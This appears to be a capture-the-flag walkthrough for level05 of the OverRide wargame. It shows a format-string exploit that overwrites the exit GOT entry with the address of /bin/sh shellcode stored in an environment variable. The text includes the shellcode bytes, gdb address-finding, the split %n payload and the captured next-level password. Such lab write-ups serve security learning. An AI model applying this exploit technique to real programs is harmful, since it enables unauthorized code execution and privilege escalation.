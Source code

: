 # level05

On the [gdb writeup](Ressources/gdbwriteup.md), we found that there is an exit at the end of the program and that we're writing on the 10th stack argument

So we will try to override the exit function with the address of the function that we want to execute, which is our shellcode

```bash 
level05@OverRide:~$ export SHELLCODE=$(python -c "print '\x90' * 20 + '\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80'")
```

So we will try to produce an exploit:
```bash
python -c "print('\x80\x49\x7\xe0'[::-1] + '%4294957231x$10')" | ./level05
```
Not working, we will need to split the address in two parts

```bash
python -c "print('\x08\x04\x97\xe0'[::-1] + '\x08\x04\x97\xe2'[::-1] +  '%<1st decimal value>x%10\$n' + '%<2nd decimal value>x%11\$n')" | ./level05
```

To understand how to calculate the decimal values there is different steps

- First, we will find the address of our shellcode 
```asm
level05@OverRide:~$ gdb ./level05 -q
Reading symbols from /home/users/level05/level05...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0x8048449
(gdb) r
Starting program: /home/users/level05/level05

Breakpoint 1, 0x08048449 in main ()
(gdb) x/200x $esp
0xffffd8a0:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd8b0:     0xdb31c031      0x80cd06b0      0x742f6853      0x2f687974
```

We can see that the address of our shellcode is 0xffffd8b0

- Then, we will split the address in two parts
```asm
(gdb) print 0xd8b0
$2 = 55472
(gdb) print 0xd8b0 - 8
$3 = 55464
(gdb) print 0xffff
$4 = 65535
(gdb) print 0xffff - (0xd8b0 - 8) - 8
$5 = 10063
```

So our first decimal value will be 55464 and our second decimal value will be 10063

```bash
python -c "print('\x08\x04\x97\xe0'[::-1] + '\x08\x04\x97\xe2'[::-1] +  '%55464x%10\$n' + '%10063x%11\$n')" | ./level05

$ whoami
level06
$ cat /home/users/level06/.pass
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```

